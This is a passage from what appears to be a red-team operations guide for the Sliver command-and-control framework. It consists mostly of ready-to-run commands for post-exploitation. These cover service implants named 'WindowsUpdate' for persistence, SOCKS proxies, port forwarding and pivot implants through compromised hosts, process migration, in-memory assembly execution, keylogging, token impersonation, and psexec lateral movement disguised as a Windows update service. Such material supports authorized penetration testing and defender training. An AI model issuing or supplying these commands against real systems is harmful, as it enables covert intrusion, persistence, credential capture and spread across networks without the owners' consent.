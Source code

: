 ```bash
# Service implant for persistence
sliver > generate --http example.com --os windows --format service --service-name "WindowsUpdate"
```

### 8.4 Pivoting and Network Tunneling

Sliver session implants allow operators to create SOCKS5 proxies and pivots for tunneling traffic through compromised hosts:

```bash
# Select session for pivoting
sliver > use [session-id]

# Start SOCKS5 proxy
sliver (session) > socks5 start --host 127.0.0.1 --port 1080

# List active SOCKS proxies
sliver > socks5

# Stop SOCKS proxy
sliver (session) > socks5 stop -i [proxy-id]

# Port forwarding
sliver (session) > portfwd add --remote 192.168.2.100:3389 --local :3389

# List port forwards
sliver (session) > portfwd

# Create pivot listener
sliver (session) > pivots tcp --bind 192.168.2.100:9090

# Generate pivot implant
sliver > generate --tcp-pivot 192.168.2.100:9090
```

### 8.5 Advanced Sliver Operations

```bash
# Process injection and migration
sliver (session) > migrate [pid]

# Execute .NET assembly in memory
sliver (session) > execute-assembly /path/to/assembly.exe

# Load and execute BOF (Beacon Object File)
sliver (session) > bof /path/to/bof.o

# Screenshot capture
sliver (session) > screenshot

# Keylogger
sliver (session) > keylogger start
sliver (session) > keylogger dump

# Token manipulation
sliver (session) > impersonate [username]

# Lateral movement via psexec
sliver (session) > psexec --host 192.168.2.101 --service-name "UpdateService" --service-desc "Windows Update"
```
